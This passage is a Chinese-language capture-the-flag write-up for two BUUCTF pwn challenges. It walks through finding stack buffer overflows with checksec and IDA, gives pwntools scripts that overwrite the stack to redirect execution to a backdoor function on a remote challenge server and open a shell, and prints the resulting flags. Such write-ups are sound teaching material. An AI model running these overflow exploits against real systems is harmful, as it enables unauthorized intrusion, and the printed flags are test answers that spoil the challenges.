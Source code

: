![](https://paper.tanyaodan.com/BUUCTF/2018_gettingstart/5.png)

编写`Python`代码即可得到`flag{5113e012-2d92-4257-bf3a-f688df2841bf}`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 27036)
# io = process('./2018_gettingStart')
payload = b'a'*0x18 + p64(0x7FFFFFFFFFFFFFFF) + p64(0x3FB999999999999A)
io.sendlineafter(b'But Whether it starts depends on you.\n', payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/2018_gettingstart/6.png)

------

### [bjdctf_2020_babystack](https://buuoj.cn/challenges#bjdctf_2020_babystack)

先`file ./bjdctf_2020_babystack`查看文件类型再`checksec --file=bjdctf_2020_babystack`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babystack/1.png)

用`IDA Pro 64bit`打开附件`bjdctf_2020_babystack`，按`F5`反汇编源码并查看主函数，发现该函数中有个`buf`变量是`char`型数组，`buf`的长度只有`0x10`，`read()`函数虽然限制了输入到`buf`变量的字节数但是该字节数是由用户输入的`nbytes`变量决定的，当`nbytes`变量是一个足够大的数值时，显然会造成栈溢出。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babystack/2.png)

双击`buf`变量查看其在内存中的虚拟地址信息，构造`payload`时可以先用`0x10`个字节占满`buf`变量，然后再加上`r`的`8`个字节。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babystack/3.png)

在`Function Window`中注意到有一个名为`backdoor()`的函数，函数返回值直接是系统调用，因此构造`payload`时需要再加上这个`backdoor()`函数的起始地址即可。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babystack/4.png)

编写`Python`代码即可得到`flag{0e0d405b-c936-45c4-afc4-947afc46b0a3}`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
# io = process('./bjdctf_2020_babystack')
io = remote('node4.buuoj.cn', 29417)
e = ELF('./bjdctf_2020_babystack')
io.sendlineafter(b'Please input the length of your name:', b'100')
backdoor_address = e.symbols['backdoor'] # 0x4006E6
log.success('backdoor_address => %s' % hex(backdoor_address))
payload = b'a'*0x10 + b'fuckpwn!' + p64(backdoor_address)
io.sendlineafter(b'What\'s u name?', payload)
io.interactive()
```
